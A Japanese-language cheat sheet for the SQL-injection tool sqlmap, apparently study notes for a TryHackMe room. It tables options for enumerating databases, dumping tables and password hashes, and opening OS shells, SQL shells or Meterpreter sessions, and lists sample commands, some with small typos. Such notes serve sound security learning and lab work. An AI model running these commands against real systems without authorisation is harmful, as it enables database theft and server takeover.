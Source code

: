 # sqlmap

https://tryhackme.com/room/sqlmap

## コマンドオプション

### 基本オプション

| オプション            | 説明                                                  |
| --------------------- | ----------------------------------------------------- |
| `-u URL`, `--url=URL` | 対象の URL（例: "http://www.site.com/vuln.php?id=1"） |
| `--data=DATA`         | POST で送信するデータ文字列（例: "id=1"）             |
| `--random-agent`      | ランダムに選ばれた HTTP User-Agent ヘッダーを使用     |
| `-p TESTPARAMETER`    | テスト対象のパラメータ                                |
| `--level=LEVEL`       | 実行するテストのレベル（1〜5、デフォルトは 1）        |
| `--risk=RISK`         | 実行するテストのリスクレベル（1〜3、デフォルトは 1）  |
| `-h`                  | ヘルプ                                                |
| `-hh`                 | Advanced ヘルプ                                       |

### 列挙オプション

| オプション        | 説明                                                   |
| ----------------- | ------------------------------------------------------ |
| `-a`, `--all`     | すべての情報を取得する                                 |
| `-b`, `--banner`  | DBMS のバナー情報を取得する                            |
| `--current-user`  | DBMS の現在のユーザーを取得する                        |
| `--current-db`    | DBMS の現在のデータベースを取得する                    |
| `--passwords`     | DBMS ユーザーのパスワードハッシュを列挙する            |
| `--dbs`           | DBMS のデータベースを列挙する                          |
| `--tables`        | DBMS のデータベーステーブルを列挙する                  |
| `--columns`       | DBMS のデータベーステーブルのカラムを列挙する          |
| `--schema`        | DBMS のスキーマを列挙する                              |
| `--dump`          | DBMS のデータベーステーブルのデータをダンプする        |
| `--dump-all`      | すべての DBMS データベーステーブルのデータをダンプする |
| `--is-dba`        | 現在の DBMS ユーザーが DBA（管理者）かどうかを検出する |
| `-D <DB NAME>`    | 列挙対象の DBMS データベースを指定する                 |
| `-T <TABLE NAME>` | 列挙対象の DBMS データベーステーブルを指定する         |
| `-C COL`          | 列挙対象の DBMS データベーステーブルのカラムを指定する |

### OS アクセスオプション

| オプション       | 説明                                                                          |
| ---------------- | ----------------------------------------------------------------------------- |
| `--os-shell`     | 対話型の OS シェルを起動するプロンプトを表示                                  |
| `--os-pwn`       | OOB シェル、Meterpreter、または VNC の起動プロンプトを表示                    |
| `--os-cmd=OSCMD` | 指定した OS コマンドを実行する                                                |
| `--priv-esc`     | データベースプロセスユーザーの権限昇格を試みる                                |
| `--os-smbrelay`  | ワンクリックで OOB シェル、Meterpreter、または VNC を起動するプロンプトを表示 |
| `--sql-shell`    | 対話型の SQL シェルを起動するプロンプトを表示                                 |

## 実行方法

Burp 等でファイル保存したリクエストを利用するのが簡単。

```shell
# DB名列挙
sqlmap -r <request_file> -p <vulnerable_parameter> --dbs

# DB指定してテーブル名列挙
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables

# テーブル指定して列名を列挙
sqlmap -r req.txt -D <database_name> -T <table_name> --columns

# 全てをダンプ
sqlmap -r req.txt-p  -D <database_name> --dump-all

# GETの例
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables
```

```shell
# キャッシュを使わず、新しくデータを取得しなおす
--flush-session

# 自動的にデフォルトの選択肢を選んで実行する
--batch
```

```shell
# IPアドレスを記録しているサーバーに対して
sqlmap –dbms mysql --headers="X-forwarded-for:1*" -u http://<ip>
```
